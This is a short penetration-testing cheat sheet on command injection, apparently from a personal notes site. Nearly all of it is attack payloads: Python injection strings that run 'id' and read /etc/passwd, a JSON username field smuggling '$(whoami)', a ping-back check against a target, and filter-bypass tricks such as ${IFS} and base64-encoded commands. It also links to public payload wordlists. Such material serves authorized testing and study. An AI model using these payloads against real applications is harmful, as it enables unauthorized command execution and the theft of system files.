 ```yaml
---
description: >-
  Command injection is an attack in which the goal is execution of arbitrary
  commands on the host operating system via a vulnerable application.
---
```


# Command Injection

### Wordlists

{% embed url="https://github.com/payloadbox/command-injection-payload-list" %}

ICMP ping check

```bash
# Run tcpdump
sudo tcpdump -i tun0 -A icmp

# Ping from target
;ping -c 4 10.10.10.11
```

Check special chars

{% embed url="https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/special-chars.txt" %}
/
{% endembed %}

Various injections

```bash
# Python command injections
') + str(__import__('os').system('id')) #
') + str(__import__('os').system('cat /etc/passwd')) #
' + __import__('os').popen('id').read() + '
'+__import__('os').system('id')+'

# API Injections using JSON
API injection using JSON
{
	"username": "mczen84$(whoami)"
}
```

Filter bypasses

```bash
%09 # Using tabs
${IFS} # Space
${PATH:0:1} # Is /

# Encode string base64
echo -n 'cat /etc/passwd | grep 33' | base64
```

Injection points to check

* Input parameters
* HTTP Headers
* Cookies
